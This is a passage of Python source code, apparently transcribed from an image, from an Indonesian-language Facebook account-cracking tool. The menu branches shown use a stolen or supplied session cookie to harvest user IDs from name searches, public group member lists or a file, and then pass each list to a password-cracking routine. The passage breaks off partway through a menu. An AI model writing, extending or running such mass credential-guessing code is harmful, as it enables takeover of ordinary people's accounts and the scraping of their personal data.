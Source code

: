 			user = console.input(f" {H2}• {P2}masukan nama : ")

			common = open("asset/nama_indonesia","r").read().splitlines()

			for idt in user.split(","):

				self.id.append(idt)

				for people in common:

					self.id.append(people+" "+idt)

			try:

				for gas in self.id:

					Dump(cookie).Dump_Pencarian(f"https://mbasic.facebook.com/public/{gas}")

			except:pass

			Crack().atursandi()

		

		###----------[ MEMBER GRUP ]---------- ###

		elif menu in["6","06"]:

			prints(Panel(f"""{P2}masukan id grup, pastikan grup bersifat publik dan tidak private""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan id grup : ")

			Dump(cookie).Dump_MemberGrup(f"https://mbasic.facebook.com/groups/{user}")

			Crack().atursandi()

			

		###----------[ FILE MASSAL ]---------- ###

		elif menu in["7","07"]:

			prints(Panel(f"""{P2}masukan tempat file, pastikan izin ke penyimpanan sudah diaktifkan""",width=80,style=f"{color_panel}"))

			user = console.input(f" {H2}• {P2}masukan tempat file : ")

			Dump(cookie).Dump_File(user)

			Crack().atursandi()



		###----------[ PINDAH KE MENU BOT ]---------- ###

		elif menu in["BOT","Bot","bot"]:

			exit(prints(Panel(f"""{M2}🙏 maaf fitur ini belum tersedia, silahkan menunggu update selanjutnya""",width=80,style=f"{color_panel}")))

			

		###----------[ PINDAH KE MENU LAIN ]---------- ###

		elif menu in["LAIN","Lain","lain"]:
